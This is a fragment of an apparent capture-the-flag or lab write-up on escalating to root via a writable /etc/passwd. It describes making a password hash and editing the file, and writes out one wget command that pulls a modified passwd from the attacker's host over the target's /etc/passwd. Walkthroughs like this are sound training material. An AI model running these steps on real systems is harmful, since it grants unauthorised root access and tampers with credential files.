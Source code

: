 checking for writable `/etc` file, i found out that `/etc/passwd` is writable. let's abuse this priv. first i generated a passwd hash using openssl.

![image](https://user-images.githubusercontent.com/87468669/211204756-d9767ebb-e3d8-493e-9f43-4426cecca0e8.png)

cat the content of `/etc/passwd` copied it to my attack box. so i can edited since there's no editor in the target.

![image](https://user-images.githubusercontent.com/87468669/211205084-2708c723-fadc-4f03-9ae1-8e2287c6ed68.png)

After editing the content, i start up python http server, so as to download and replace the original file in the target box.

![image](https://user-images.githubusercontent.com/87468669/211205217-a281ab44-3a9f-4294-80ba-16322dc63f14.png)

`wget http://192.168.49.79/passwd -O /etc/passwd`

Using wget, i replaced the `/etc/passwd` file with the modified one, then su root using the passwd we genrated earlier and we got root. 🤓
